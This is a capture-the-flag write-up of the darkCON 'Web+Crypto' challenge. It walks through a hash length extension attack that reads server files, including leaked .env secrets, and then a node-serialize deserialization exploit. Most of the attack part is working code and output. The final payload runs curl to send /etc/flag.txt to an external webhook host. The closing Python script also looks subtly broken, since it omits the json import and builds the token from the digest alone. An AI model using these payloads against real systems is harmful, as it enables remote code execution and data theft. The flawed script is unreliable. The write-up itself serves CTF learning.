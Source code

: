```yaml
---
title:  "darkCON CTF - Web+Crypto (3 solves / 498 points)"
date:   2021-02-22 09:29:20 +0700
tags: [Web, node, deserialization, crypto, length extension attack, ctf]
categories: Web
description: Writeup of misc chall web+crypto from darkcon ctf
---
```


tl;dr: /readfile is vulnerable to length extension attack, so read source file of web app and exploiting the node-deserialization attack

---
**Solution**

So from webpage source code we see that there are total 3 funionality of the web app registration,login,readfile.

After login we get token using that token to readfile we can read the 68696e742e747874 (hex decode as hint.txt)

```
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"username":"karma","password":"karma"}' http://web-crypto.darkarmy.xyz/login
{"token":"eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4="}
```

```
root@KARMA:/# curl -XPOST -H "Content-Type: application/json" -d '{"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=", "filename": "68696e742e747874", "sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}' http://web-crypto.darkarmy.xyz/readfile
{"filedata":"Implementing MAC and adding cheese to it pfftt...easy,btw cheese length is less than 30 chars xD\n"}
```

`Implementing MAC and adding cheese to it and cheese length is less than 30 chars` -> this suggest it to length extension attack with password length less than 30 chars given.

Web app is running on nodejs so package.json must be present on the system

We get the contents of package.json at 22 so password length is 22

{% highlight python %}
import hashpumpy
import requests
import json
import binascii
for i in range(1,30):
  sig,inp = hashpumpy.hashpump("e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01","hint.txt","/../package.json",i)
  filename = binascii.hexlify(inp).decode()
  url = 'http://web-crypto.darkarmy.xyz/readfile'
  myobj = {"token": "eyJ1bmFtZSI6Imthcm1hIiwiaWQiOjEyfQ==--RkBc/sh6/qVSgIjEBoBrQ4WKqI4=","filename":filename,"sig":sig}
  x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
  print(x.text)

# response 
# {"filedata":"{\n  \"name\": \"web_crypto\",\n  \"version\": \"1.0.0\",\n  \"description\": \"\",\n  \"main\": \"app.js\",\n  \"scripts\": {\n    \"test\": \"echo \\\"Error: no test specified\\\" && exit 1\"\n  },\n  \"keywords\": [],\n  \"author\": \"\",\n  \"license\": \"ISC\",\n  \"dependencies\": {\n    \"body-parser\": \"^1.19.0\",\n    \"dotenv\": \"^8.2.0\",\n    \"ejs\": \"^3.1.5\",\n    \"express\": \"^4.17.1\",\n    \"mysql\": \"^2.18.1\",\n    \"node-serialize\": \"0.0.4\",\n    \"cluster\": \"^0.7.7\"\n  }\n}\n"}
{% endhighlight %}

From the response we can also read the app.js which leads to the file /models/User.js

node-serialize is used in User.js for creating the user specific token

{% highlight js %}
encrypter(user) {
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    var data = Buffer.from(serialize.serialize(user)).toString('base64') 
    return data+"--"+shasum.update(data).digest('base64'); 
    }

  decrypter(token) {
    return new Promise(function(resolve,reject){
    var data = token.split("--")
    var shasum = crypto.createHmac('sha1',process.env.AUTH_SECRET);
    if(data[1] === shasum.update(data[0]).digest('base64')){
        try{
          return resolve(serialize.unserialize(Buffer.from(data[0], 'base64').toString()))
        }catch(err){
          return reject(err.message);
        }
    }else{
      return reject("Trying to hack? lol")
    }});
  }
{% endhighlight %}

A little bit of google search for node-serialize leads to that the npm package is vulnerable to node-deserialization rce attack

{% highlight js %}
app.post('/readfile',(req,res)=>{
  var token = req.body.token
  var sig = req.body.sig
  var name = req.body.filename
  console.log(token+sig+name)
  if(token && sig && name){
    var userobj = new User().decrypter(token).then(function(obj){
      filename = Buffer.from(name,'hex').toString('binary')
      new User().access_file(filename,sig).then(function(data){
        res.json({"filedata":data})
      }).catch(function(err){
        res.json({"err":err})
      })
    }).catch(function(err){
        res.json({"err":err})
      });
  }else{
    res.json({"err":"Invalid request"})
  }
});
{% endhighlight %}

And from readfile route we can check that the app first verifies the token and then forwards it to decrypter function which calls the unserialize function which can give rce.

So for that to work we need to sign our payload with valid signature, so the AUTH_SECRET is comming from .env file which we can easily read it

.env file
```
DB_HOST=wc_mysql
DB_USER=root
DB_NAME=scam
nDB_PASS=scammer@123
HASH_SECRET=testingallthewayintoit
AUTH_SECRET=abhikliyekuchbhitestingkar
```

Solution Script

{% highlight python %}
from hashlib import sha1
import hmac
import requests

# {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('curl -XPOST --data-binary \"@/etc/flag.txt\" https://webhook.site/eb800bdc-e7a9-4765-852b-1a6513b56f4d', function(error, stdout, stderr) { console.log(stdout)});}()"}

raw = "eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgLVhQT1NUIC0tZGF0YS1iaW5hcnkgXCJAL2V0Yy9mbGFnLnR4dFwiIGh0dHBzOi8vd2ViaG9vay5zaXRlL2ViODAwYmRjLWU3YTktNDc2NS04NTJiLTFhNjUxM2I1NmY0ZCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpfSk7fSgpIn0="

key = "abhikliyekuchbhitestingkar"
hashed = hmac.new(key, raw, sha1)
payload_token = hashed.digest().encode('base64')
url = 'http://web-crypto.darkarmy.xyz/readfile'
myobj = {"token": payload_token,"filename":"68696e742e747874","sig":"e524127241021563a97661ef821d914fc838a942470f4ce9d3cbeaf75a666e01"}
x = requests.post(url, data = json.dumps(myobj),headers ={"Content-Type":"application/json"})
print(x.text)

# response -> darkCON{l3ngth_3xt3ns10n_2_n0d3_s3r1411z3_brrrrr_xD}
{% endhighlight %}